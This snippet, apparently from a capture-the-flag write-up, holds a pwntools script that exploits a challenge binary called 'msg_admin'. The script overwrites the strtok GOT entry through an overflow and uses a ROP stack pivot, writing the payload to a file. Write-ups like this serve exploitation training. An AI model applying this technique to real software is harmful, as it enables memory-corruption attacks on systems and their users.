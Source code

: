 Set `bbbb` to the address of `stack move 20 from binjitsu` and set the offset of `daac` to the `strtok` GOT entry.

```
from pwn import *

elf = ELF('msg_admin')
rop = ROP(elf)

pivot = rop.search(move=20).address # Need to move the stack 20 bytes to get to our ROP chain
strtok = elf.got['strtok']

log.info("Pivot: {}".format(hex(pivot)))
log.info("Strtok: {}".format(hex(strtok)))

# Overwrite `strtok` in GOT with the stack pivot
with open('pwn.msg', 'w') as f:
    sc = 'A' * cyclic_find('daac') + p32(strtok)
    sc += 'B' * (216 - len(sc))
    f.write('{}|{}\n'.format('a'*4, sc))
    f.write('{}|{}\n'.format(p32(pivot), 'B'*12))
    f.write('{}|{}\n'.format('b'*4, 'C'*12))
```
















